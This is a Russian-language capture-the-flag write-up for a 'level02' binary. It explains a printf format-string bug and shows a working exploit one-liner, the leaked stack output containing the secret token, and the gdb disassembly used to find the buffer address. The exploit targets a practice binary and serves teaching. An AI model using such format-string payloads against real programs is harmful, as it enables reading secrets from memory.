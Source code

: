 В данной функции имеется незащищенный вызов `printf` с прочтенным пользовательским вводом в качестве форматной строки. Мы можем использовать его, чтобы прочитать буфер, в который ранее программа записала значение токена.

Нужно быть внимательным, так как данная программа скомпилирована для x86_64, а значит, адрес для `%s` может идти только в конце аргумента. Подробности [тут](https://tripoloski1337.github.io/ctf/2020/06/11/format-string-bug.html).

Итого,

```sh
> python -c "print  '%p'*37 + '%.500s' + '\x00\x00\x7f\xff\xff\xff\xe5\x60'[::-1] + '\n' + 'b'" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0(nil)0x620x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x62(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x733030352e257025Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`???? does not have access!
```

Мы видим содержание пяти регистров `edi, esi, edx, ecx, r8d, r9d` (согласно Linux ABI для x86_64), за которыми следуют значения, записанные в стэк. В конце вывода находится искомый токен `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Чтобы найти адрес буфера на стэке, куда записан токен, мы воспользовались gdb. Согласно следующим инструкциям дизассемблера, мы понимаем, что буфер находится по адресу `rbp-0xa0`, что соответствует `0x00007fffffffe530` внутри дебаггера.

```
lea     rax, [rbp-0xa0 {var_a8}]
mov     rdx, qword [rbp-0x8 {var_10_1}]
mov     rcx, rdx
mov     edx, 0x29
mov     esi, 0x1
mov     rdi, rax {var_a8}
call    fread
```

Однако часто стэк, видимый изнутри gdb, сдвинут по сранению со стэком, имеющимся когда программа запускается вне дебаггера, из-за различий в переменных окружения. Мы сталкивавлись с этим на предыдущем уровне. Методом проб и ошибок мы находим, что буфер вне gdb находится по адресу `0x00007fffffffe560`.

 